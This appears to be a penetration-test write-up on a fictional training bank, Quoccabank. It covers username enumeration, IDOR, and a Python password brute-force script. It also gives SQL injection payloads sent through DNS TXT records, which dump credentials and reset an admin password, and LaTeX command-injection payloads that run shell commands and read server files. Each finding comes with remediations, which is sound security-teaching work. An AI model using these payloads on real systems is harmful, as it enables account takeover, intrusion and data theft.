

**Recon - Sensitive Metadata in Page Source**

**Vulnerability Details**

Sensitive information is stored in `blog.quoccabank.com` inside HTML tags. Furthermore, data such as an author's username can be enumerated by inspecting data in page source code.

**Proof of Concept / Steps to Reproduce**

View the page source of the website and see if sensitive information is stored either in a HTML tag or in the comments.


Similarly, viewing an author's page through this URL route `blog.quoccabank.com/?author=<author_id> ` exposes that author's username, even for hidden/private accounts by inspecting the class name found inside the body tag. This sensitive information can lead to other vulnerabilities such as an attacker attempting to log in to that account as discussed in `Authentication - Weak Passwords and Error Messages`.


**Impact**

Information stored in HTML tags or in comments can be used by attackers to gain information on how the web application could operate. Further, it provides unwanted information that can lead attackers finding a vulnerability, such as leaving in information on potential SQL queries, login credentials for accounts, etc.

**Remediation**

Strip out any sensitive information found in HTML tags or in comments when deploying it into the commercial build.


**Authentication - Weak Passwords and Error Messages**

Some accounts for `blog.quoccabank.com` contain weak passwords. For instance, the password for the `admin` account is `account`, which is trivial for an attacker to guess. Furthermore, the password for the Administrator account `mq` can be easily brute forced as it is a common password used. Error messages are also used to provide additional information on whether the entered username exists or not. Attackers can use this information to identify which accounts exist.

**Proof of Concept / Steps to Reproduce**

On the login page, if we enter a user's credentials, the page displays different error messages depending if that username exists or if the password entered was incorrect.


This identifies to an attacker whether a user account exists and focuses their efforts from there. We can easily brute different permutations of characters as the username to determine which user account username is valid. However, alternative means such as performing recon on the author's own page discussed in `Recon - Sensitive Metadata in Page Source` and `IDOR through URL Parameters` can be used as alternate means to enumerate possible usernames.

For accounts such as `admin`, it was trivial to guess the password `admin` to gain access. For other accounts such as `mq`, we can brute force the password by using a wordlist containing the most common passwords. The script below performs an attack that quickly brute force the login of a specified user by repeatedly using a password in the most common password wordlist and checking the response.

```python
def brute_force_pwd(pwd, throttle=0):
    # make request
    username = 'mq'
    payload = {
        'log': username,
        'pwd': pwd
    }
    res = requests.post('https://blog.quoccabank.com/wp-login.php', 
                        data=payload, cert=(cert_path, key_path))
    time.sleep(throttle)

    if res.status_code == 420:
        # make the same request again
        brute_force_pwd(pwd, throttle + 0.1)
    else:
        print("Password: " + pwd)
        if "incorrect" not in res.text:
            print("=== FOUND ===")
            exit()

if __name__ == '__main__':
    # common_passwords.txt - SecLists Top 100000 Password List 
    with open("common_passwords.txt", "r") as pwd_list:
        for pwd in pwd_list:
            brute_force_pwd(pwd.strip())
```

Running the brute force script reveals that the password for username `mq` is `1q2w3e`. It also appears that `mq` has Administrator access to `blog.quoccabank.com`.

**Impact**

If an attacker was to have access to an Administrator account, such as `mq`, then this means that they would have full control of the entirety of `blog.quoccabank.com`. The attacker would be able to create posts, delete accounts, modify information for each user, retrieve other user sensitive data, etc. This can severely lead to a bad reputation for Quoccabank such that it creates negative publicity from an attacker being able to gain access to an Administrator account. Not to mention that an attacker could also brute force other accounts as well if that account utilises a weak password. With this vulnerability, an attacker has full control in publishing hidden/drafted posts or the ability to impersonate as that user.

**Remediations**

- Ensure that error messages when attempting to log in do not reveal much information. Instead, use a generic error message such as "The username or password entered is incorrect" rather than specifying the exact condition in why the attempted log in failed. This makes it difficult for attackers to know which accounts exist and decreases the chance of a successful brute force attack.
- Ensure that there is a password policy in place when creating accounts such that each password must meet a certain condition (i.e. at least one upper case letter, at least one number, etc.) and meet the required password strength. This greatly reduces the risk for the user to use a common password that is susceptible to a brute force password attack such as a dictionary attack. Moreover, it is highly recommended that Quoccabank follows the NIST 800-63 Password Guidelines to ensure that passwords are not weak to brute force.
- As suggested in the NIST 800-63 Password Guidelines, ensure that there is a maximum attempt for the user to log in before locking the account. This makes it difficult for attackers to easily brute force the password as they have limited attempts. Further, Quoccabank should have something such as reCAPTCHA to distinguish between a human or bot attempting to log in or have rate limiting in place.


**Recon - Default Configurations: Login Page is accessible**

The login page for `blog.quoccabank` can be easily found and accessed in the website as it was linked in a post and the owner of `blog.quoccabank.com` used the default configurations for the log in route. Attackers can easily find this which could lead to brute force logging in as a user.

**Proof of Concept / Steps to Reproduce**

The URL for the login route can be found on a post. By accessing the post with page_id = 2, the URL is found via an IDOR vulnerability discussed in `IDOR through URL Parameters`.


Another method to find the login in URL route is that by performing some recon, an attacker could easily identify that `blog.quoccabank.com` is powered by the Aperture WordPress theme. This information on the technology used for the web application can prompt attackers to search up default configuration settings. In this case, `/wp-login.php` appears to be the default URL path to log in as a user for this version of WordPress.

**Impact**

Identifying URL routes that can lead to escalation privileges can be a point of vulnerability to utilise exploits such as brute forcing password for different accounts or logging into a user account with admin privileges as discussed in `Authentication - Weak Passwords and Error Messages`.

**Remediation**

Ensure that sensitive URL routes such as `/wp-login.php` are not published within posts and are not publicly accessible throughout the website. It is highly recommended that Quoccabank change any default configuration settings such as the login path to a different value.

**Vulnerability: IDOR through URL Parameters**

**Vulnerability**

There exists IDOR vulnerabilities seen with `blog.qoccabank.com` in the URL whereby an attacker can display information and metadata about the author or posts by modifying the URL parameters and accessing that webpage. This opens up the possibility for attackers to open up an author's page to identify their username through inspecting the page source for any metadata or display hidden posts.

**Proof of Concept / Steps to Reproduce**

Through navigating `blog.quoccabank.com`, notice that loading a page about an author is in the form of this URL pattern `blog.quoccabank.com/?author=<author_id>`.  It appears that each author has their own page that contains information about them and that it is indexed by the author_id. Discussed in `Recon - Sensitive Metadata in Page Source`, it appears that sensitive metadata about an author's username appears in the body class, even for authors that are hidden. Attackers can perform some recon to find different usernames through this IDOR vulnerability by inspecting sensitive metadata found in the page source code.


Additionally, it appears that the IDOR vulnerability can be used to display posts that are hidden by modifying the URL pattern `blog.quoccabank.com/?page_id=<page_id>` where each post is accessed through a page_id. This is especially problematic as an attacker can go through different page_id's and fetch hidden posts which may contain privilege information meant for the account only. For example, accessing the post with page_id = 2 displays information about Quoccabank's company restructure.


**Impact**

Having a direct reference to an author's page can lead to other vulnerabilities as showcased in both `Recon - Sensitive Metadata in Page Source` and `Authentication - Weak Passwords and Error Messages`. The direct reference to that object can lead an attacker to enumerating more information such as an author's username which can lead to other vulnerabilities.

Any sensitive information within hidden blog posts can be accessed by an attacker through this IDOR vulnerability. This means that potential confidential information about any author account, specifically Quoccabank, can be leaked and damage the reputation of the company. For example, having access to view the `Company Restructure [DRAFT - do NOT publish]` post directly accessible through referencing the page id is dangerous as attackers can maliciously use this information to negatively impact Quoccabank's publicity and stakeholders involved.

**Remediation**

Ensure that hidden posts are private and cannot be accessed through changing the URL parameters. Furthermore, proper access control should be in place such that the author of a hidden post has the only permission to view that post. This prevents any unauthorised users from accessing objects directly. Another remediation is to hash the direct reference to an object. In this case, both the author_id and page_id parameter value should have been hashed or encoded by a secret key such that enumerating different URL parameters for posts and author pages is made difficult by an attacker. Quoccabank should not store any confidential information as a post in `blog.quoccabank.com` seen with `Company Restructure [DRAFT - do NOT publish]`. Instead, this type of confidentiality should be stored locally or by other more secure means.

**SQL Injection through DNS Record**

**Vulnerability Details**

Without understanding the general functionality of a web application, it can be hard to identify where the application is SQLi vulnerable. As seen with `signin.quoccabank.com`, the web application is vulnerable to SQLi by using two external services, `qdns.quoccabank.com` and creating a DNS record. The SQL injection allows us to extract sensitive information in the database, such as email addresses and passwords, modify contents or delete data. Error messages shown when providing an invalid SQLi payload minimises the difficulty in determining the potential exploit needed.

**Proof of Concept / Steps to Reproduce**

Using `qdns.quoccabank.com`, we can link an IP address to a domain name. It appears that when resetting the password in `signin.quoccabank.com`, it fetches DNS information from a domain that is linked through `qdns.quoccabank.com` and populates the data in the database to be displayed on the home page.


Judging by this, it appears that every time a user a reset their password, the backend of the web application performs some sort of DNS lookup to a domain linked to the user's IP address specified from `qdns.quoccabank.com` and from there, perform an SQL `UPDATE` query given the DNS information. As such, we have found a place that an attacker can inject a SQLi payload into. By creating a TXT record with the given SQLi payload as its content, we have found where the web application is vulnerable. This is because that since the backend performs some kind of DNS lookup in the backend, it is using that result to update the database. As such, the SQL query would look something like this where `reset_details` would include the DNS information for the linked domain.

```sql
UPDATE users SET password=?, reset_details=<DNS information>, last_reset=?, reset_actor=? where email=?
```

From this, we can inject our SQLi payloads into a TXT record and reset the password every time to perform the `UPDATE` SQL query. When injecting an invalid payload such as `' -- )`, it gives us an error message shown below. It appears that the SQL statement contains both string concatenation and a parametrized query to execute the SQL operation. 

Further injecting other payloads, we can elicit more information from the error message such that it reveals the rest of the SQL query used.


To extract sensitive information, we can perform a `SUBQUERY` to give us the option to `SELECT` different data. For instance, if our aim is to determine what tables exist in the database, we can include the payload below in the TXT record.

```sql
',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(table_name SEPARATOR ' ') from information_schema.tables)), reset_actor=? where email=?  -- )
```

Using the `CONCAT()` function, we can concatenate the parametrised query `?` and the output of our subquery. This is needed as the utilisation of the parametrised query seems to be required for the backend or otherwise it will cause a syntax issue. Using the `GROUP_CONCAT()` function also concatenates our output from the `SELECT` statement into a single string since the query expects that to be the case.


Using this query reveals the table names, however, it appears that there is a character limit for the concatenation. As such, we can modify the query shown below to display the output in reverse order which reveals more information on the existing tables.

```sql
',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(table_name ORDER BY table_name DESC SEPARATOR ' ') from information_schema.tables)), reset_actor=? where email=?  -- )
```


It was worth noting that there exists a `users` table that we could possibly extract useful information from. Now, having a table name, we can query all column names of the `users` table using the payload below.

```sql
',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(column_name) from information_schema.columns where table_name = 'users')), reset_actor=? where email=?  -- )
```


Thus, the notable column names includes `email` and `password` in `users`. From here, we can exfiltrate data on the user's email and password by including payload in the TXT DNS record.

```sql
',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(email, password SEPARATOR ' ') from (SELECT * FROM users) AS userscopy)), reset_actor=? where email=?  -- )
```

In this SQL injection, we used another subquery to copy over the values in the `users` table to a new table since MySQL doesn't allow you to reference the table that you are updating.

If successful, it would display all users and their corresponding passwords. Notable that there is an `admin@quoccabank.com` account with the password `LMAO_YOU_THERES_A_FLAG`. From here, we have full access to login into any user account.


**Impact**

Attackers can exfiltrate confidential data from the database through SQL injection and perform malicious actions. Specifically, user's emails and password can be obtained and leak from `signup.quoccabank.com`. Not to mention that passwords are stored in plain text meaning that attackers can attempting logging in through other websites with a user's credentials, since in some cases, users often use the same password for other websites. SQL injection can also be used to modify contents, delete information or extract data and show it on screen.

**Remediation**

Firstly, ensure that input for the SQL query in the backend is sanitising inputs and construct SQL queries using parameters rather than string concatenation. This allows the SQL engine to distinctively identify between code and data. Furthermore, it is recommended to ensure error messages are not displayed to the user. This makes it difficult for an attacker to formulate what the SQL query could be which minimises an SQL injection. Another remediation is encode any extremely sensitive information in the database, such as passwords.

**SQL Injection to Change Passwords**

As seen earlier, we have discussed how `signin.quoccabank.com` is vulnerable to an SQL injection by inserting the payload to the TXT record to exfiltrate sensitive information within the database. However, there exists another SQL injection in which we can overwrite another user password and gain access that way through updating the database directly.

**Proof of Concept / Steps to Reproduce**

Using the same methods mentioned earlier in injecting the payload, if we instead inject payload below in the TXT record, we can use the current UPDATE query on the backend to simply reset another user's password to the temporary password generated.

```sql
', last_reset=?, reset_actor=? where email=? or email='admin@quoccabank.com' -- )
```

We now have the password to access another user's account by using the temporary password for our current user as we have effectively overwritten that user's details with our own.

**Impact**

As mentioned earlier, SQL injections can be used to modify contents, delete information or extract data. In this case, we are effectively overwriting another user's data and utilising the information to gain access to an account. This is particularly dangerous as we now have full access to that account which we may or may not contain sensitive data for that user.

**Remediation**

Remediations for SQL injections have been discussed in `SQL Injection through DNS Record`

**Command Injection via LaTeX**

**Vulnerability Details**

Command injections are not solely restricted by inputting commands to a system shell. Command injection payloads can also be executed through other applications such as LaTeX. This is with the case for `letters.quoccabank.com` as it appears that the input passed is compiled to a PDF document using LaTeX. This is extremely dangerous as users can inject malicious payload inside certain LaTeX constructs such as using `/input{}` into the input field which can be interpreted by the LaTeX compiler as an execution of a command to the system. This can be problematic where hackers can inject a payload to exfiltrate data from the system where the web application is hosted on or potentially perform malicious actions such as spawning up a reverse shell if the system is vulnerable enough to gain access.

**Proof of Concept / Steps to Reproduce**

It appears that `letters.quoccabank.com` reveals the source code of the way in serving HTML files from the backend when clicking one of its navigation menus under `Secret Sauce`. As a consequence, this reveals too much information such as the structure in serving files to an attacker. 


Inspecting the source code reveals potential URL routes that the web application may serve HTML files for. For instance, inspecting this snippet of code below reveals that there could potentially exist a file called `flag` in the root directory.


Such information present can be abused to identify which file paths could be valid. As such, command injecting a payload into the LaTeX input that opens `/flag`, for example, `\input{/flag}` could potentially reveal sensitive information that the admin may not want to be seen by the user.


Further inspecting the source code for the web application, we can extract sensitive data of certain file names such as `/key`.


In this manner, users can extract sensitive information meant only for engineers of the application, in this case the key `imagineUsingW0rd` which verifies whether the input for the debug option is signed correctly with the key.


Thinking from an attacker point of view, we know for certain that perhaps we can inject a command injection within the input that allows us to execute system commands. It appears that when using the `-shell-escape` flag when generating the document, this allows us to run external commands within LaTeX, meaning that we could execute bash commands as well and are not limited by the in-built security features due to including this flag into the compilation. Furthermore, having access to the key means that we can correctly sign our input to the debug option so that the backend of the application can correctly insert it as a flag judging based on the source code found.

```python
# Python program that prints the correct signed key of the input
s = Signer("imagineUsingW0rd")
# prints -shell-escape.ZYO1d05uy-FCZuQ_fSzoDfjkipM
print(s.sign("-shell-escape").decode('utf-8'))
```

Having the ability to command inject and be able to run shell commands within LaTeX could enable an attacker to exfiltrate data from the system. For example, they can list the contents of the directories and see if any sensitive information is contained as shown below. To note, the output is encoded in base64 to avoid any issues with LaTeX syntax.

```python
\input{|"echo ""; ls / | base64"}
```

Decoding the output of such payload, one can begin scouting sensitive files in the system where the web application is hosted up.



From here, once we know for certain where sensitive files are located, in this case, it appears that `/admin_539f98bf-9a52-4bc0-bf34-1ffaba10997c.pdf` may be of relevance, we can using other command injection payloads to potentially open up contents of a file and exfiltrate data from it if possible. In this case, we can inject this payload shown below in the input which gives us the base64 contents of the file. From there, decoding tools such as CyberChef can aid us in decoding the base64 encoding and extract the pdf to reveal its contents.

```latex
\input{|"echo ""; cat /admin_539f98bf-9a52-4bc0-bf34-1ffaba10997c.pdf | base64"}
```


**Impact**

This vulnerability allows users to perform command injection through LaTeX, either reading file content or performing system shell commands. The impact of such vulnerability would allow an attacker to exfiltrate sensitive data on the system where the web application is hosted on. For example, this could lead to instances where an attacker could extract contents of sensitive admin files or server configuration files such as the example with the `/key` file whereby its contents could allow attackers to send their own debug option to the backend for malicious purposes. Furthermore by performing system shell commands with the valid signed debug option input, it would enable an attacker to list the contents of directories or find certain path locations of files.

**Remediation**

For starters, it is not recommended to reveal the source code of the backend or allow a debug option in the first place. As it puts so much information out there for an attacker to do some recon and find vulnerabilities of the web application that way. This can be seen with revealing potential file names that may contain sensitive data such as `/flag` or `/key`. Furthermore, to prevent any command injection, sanitize the input or blacklist words such that system shell commands are prohibited. Also, it is highly recommended to ensure that the debug option is checked against flags that allow system shell commands to be executed in LaTeX, such as `-shell-escape`. It is strongly recommended to not show or accept the debug option input in the release of the web application.

